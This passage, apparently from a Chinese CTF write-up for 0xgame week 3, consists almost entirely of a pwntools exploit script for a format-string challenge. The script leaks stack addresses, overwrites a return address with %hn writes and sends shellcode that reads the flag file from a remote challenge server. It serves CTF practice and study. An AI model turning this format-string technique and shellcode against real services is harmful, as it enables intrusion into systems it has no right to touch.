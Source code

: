 ```
from pwn import *
#io = process('./fmt2')
io = remote('47.97.58.52',43000)
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.sendafter(b'Say something:',b'%11$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recvuntil(b'Shanghai!\n',drop=True).decode(),16)
ret_a = addr - 0xe08 + 0xd08
print(hex(ret_a))
io.sendafter(b'Say something:',b'%7$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recv(12).decode(),16)
what = addr - 0x50 -0x151 +  0xA3
print(hex(what))
payload1 = b'%' + str(ret_a & 0xffff).encode() + b'c%11$hn' + b'\x00'
#gdb.attach(io)
#pause()
io.sendafter(b'Say something:',payload1)
#0x27 = 39
payload0 = b'%' + str(what & 0xffff).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload0)

payload1 = b'%' + str(ret_a+8 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload1)
payload2 = b'%' + str(0x4010).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload2)
payload3 = b'%' + str(ret_a+10 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload3)
payload4 = b'%' + str(0x1451).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload4)
payload5 = b'%' + str(ret_a+12 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload5)
payload6 = b'%' + str(0x0001).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload6)

get_shell = b'stop\x00'
get_shell = get_shell.ljust(16,b'\x00')
addr = 0x114514170
payload7 = shellcraft.amd64.open("./flag")
payload7 += shellcraft.amd64.read(3,addr,0x30)
payload7 += shellcraft.amd64.write(1,addr,0x30)
payload7 = asm(payload7)
get_shell = get_shell + payload7
io.sendafter(b'Say something:',get_shell)
io.interactive()            
```

总体来说，week3还是挺难的，但是还好就三道题，三天干掉嘿嘿嘿。

# 0xgame week4
